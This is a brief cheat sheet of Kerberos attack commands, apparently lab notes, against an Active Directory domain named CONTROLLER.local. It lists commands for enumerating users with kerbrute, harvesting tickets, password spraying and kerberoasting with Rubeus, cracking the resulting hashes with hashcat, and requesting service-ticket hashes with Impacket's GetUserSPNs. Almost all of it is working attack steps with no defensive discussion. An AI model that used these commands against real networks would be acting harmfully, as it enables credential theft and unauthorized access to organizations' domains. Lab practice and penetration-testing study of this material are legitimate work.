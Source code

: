 # Attacking Kerberos

> Shahrukh Tramboo | January 6th, 2022

--------------------------------------

## Kerberute

This does not require the local account access

https://github.com/ropnop/kerbrute/releases

**Enumerating Users with Kerbrute**


```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Rebeus 

**Harvesting tockets with Rebeus**

```bash
Rubeus.exe harvest /interval:30
```

**Brute-Forcing / Password-Spraying with Rubeus**

Add the IP and domain name to the hosts file from the machine,and then "spray" it against all found users then give the .kirbi TGT for that user.

```bash
echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
Rubeus.exe brute /password:Password1 /noticket
```

**Kerberoasting with Rubeus**

Dump Kerberos hash of any kerberoastable users

```bash
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

**Kerberoasting with Impacket**

```bash
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request
```








